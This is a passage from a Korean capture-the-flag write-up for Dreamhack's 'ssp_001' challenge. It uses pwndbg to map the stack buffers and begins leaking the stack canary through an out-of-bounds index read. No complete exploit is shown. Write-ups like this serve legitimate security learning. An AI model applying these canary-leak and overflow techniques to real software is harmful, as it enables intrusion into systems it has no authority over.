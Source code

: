 #### 'E' Name

`0x08048831 <+262>:   lea    eax,[ebp-0x90]`를 통해 scanf를 이용한 name_len의 위치를 알 수 있다.

```
0x08048859 <+302>:   lea    eax,[ebp-0x48]
0x0804885c <+305>:   push   eax
0x0804885d <+306>:   push   0x0
0x0804885f <+308>:   call   0x80484a0 <read@plt>
```

이 부분을 통해 Name을 어디서부터 읽는 지 알 수 있는데 `[ebp-0x48]`부터 Name 스택이 쌓이는 것이다.

```
pwndbg> b *main+313
Breakpoint 1 at 0x8048864
pwndbg> r
Starting program: /home/peoplstar/dreamhack/SSP/ssp_001
[F]ill the box
[P]rint the box
[E]xit
> E
Name Size : 20
Name : AAAABBBBCCCCDDDDEEEE
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187058534-80ebc011-06eb-47b1-bcf3-a970c6ede508.jpg" width = 500>
</p>

* x/40wx $ebp-0x48 : **Name**
* x/wx $ebp-0x90 : **Name Size**

현재까지의 스택을 그림으로 표현하면 아래와 같게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187059405-36f1874f-6b4b-44d4-b321-eae5487c4792.jpg" width = 320>
</p>

### Canary Leak

```C
case 'F':
    printf("box input : ");
    read(0, box, sizeof(box));
    break;
```

위 함수를 이용하여 Box가 아닌 Canary 영역까지 넘어가서 읽을 수 있다.

```
[F]ill the box
[P]rint the box
[E]xit
> P
Element index : 128
Element of index 128 is : 00
```
